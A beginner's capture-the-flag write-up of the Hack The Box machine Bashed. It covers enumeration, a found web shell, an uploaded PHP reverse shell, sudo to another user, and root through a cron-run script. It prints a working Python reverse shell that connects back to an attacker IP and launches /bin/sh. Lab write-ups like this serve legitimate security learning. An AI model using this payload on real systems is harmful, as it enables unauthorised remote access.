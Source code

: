 # Bashed

This is my write-up for the machine Bashed on Hack The Box located at: [https://app.hackthebox.com/machines/Bashed](https://app.hackthebox.com/machines/Bashed).

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

basic nmap scan: nmap `10.10.10.68`

![](<../../.gitbook/assets/image (349).png>)

We can see that port 80 (http) is open. I did a deeper nmap scan as well:

![](<../../.gitbook/assets/image (333).png>)

The port open is still the same. Going to the http site, we see the following:

![](<../../.gitbook/assets/image (354).png>)

I got a hint from this that **phpbash** is being used on the server and that I will have to exploit it. I ran **gobuster** to see what directories were available:

![](<../../.gitbook/assets/image (356).png>)

The **uploads** directory was empty, and I believe we will have to upload a shell there. The **php** directory had the following:

![](<../../.gitbook/assets/image (329).png>)

The file was empty when downloaded. Looking in the **dev** folder, I was able to find the shell:

![](<../../.gitbook/assets/image (328).png>)

I was then able to find the user.txt flag:

![](<../../.gitbook/assets/image (357).png>)

Running `sudo -l`, I was able to see the following:

![](<../../.gitbook/assets/image (337).png>)

I then realized I would have to upload a reverse shell to the system. There were two ways in my mind: **netcat** and **pentestmonkey php-reverse-shell**. I tried the **pentestmonkey** option first. I downloaded it from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), and then edited the IP address to be mine and then was able to upload it using `python3 -m http.server`.&#x20;

![](<../../.gitbook/assets/image (346).png>)

![](<../../.gitbook/assets/image (358).png>)

I then accessed the file on the website and was able to get a reverse shell using **netcat**:

![](<../../.gitbook/assets/image (344).png>)

![](<../../.gitbook/assets/image (347).png>)

After a while of searching for a way to get out of a limited shell, I found [this site](https://guide.offsecnewbie.com/shells), where I saw the following:

![](<../../.gitbook/assets/image (343).png>)

Running that command got me out of the limited shell:

![](<../../.gitbook/assets/image (334).png>)

The `sudo -l` command from before shows us that the user we currently are has access to run commands as **scriptmanager**. A quick Google search showed me that to run a command as another user is to run `sudo -u scriptmanager`. I wanted to get a reverse shell as the **scriptmanager** user:

![](<../../.gitbook/assets/image (360).png>)

![](<../../.gitbook/assets/image (345).png>)

I edited the payload from [this website](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

![](<../../.gitbook/assets/image (350).png>)

I get the same error as before:

![](<../../.gitbook/assets/image (355).png>)

When I ran linpeas (not shows in write-up, but uploaded the same way as the reverse shell), I noticed that there was a folder called **scripts**:

![](<../../.gitbook/assets/image (339).png>)

The code writes text to a file. At this point, I was actually lost. I found [this write-up](https://ethicalhacking.sh/posts/hack-the-box-bashed-writeup/) that clarifies that I should have been focused on the cron jobs and noticed that the file is ran by root in the cron job. I changed the original test.txt file by overwriting it by doing the following:

![](<../../.gitbook/assets/image (351).png>)

The content of the file was the following (from the write-up mentioned before):

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.11",8888));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

I was then able to get root (after a minute) and the root flag:

![](<../../.gitbook/assets/image (352).png>)

Going back to see where my mistake was, I should have noticed this in the output of linpeas.sh:

![](<../../.gitbook/assets/image (359).png>)

![](<../../.gitbook/assets/image (348).png>)
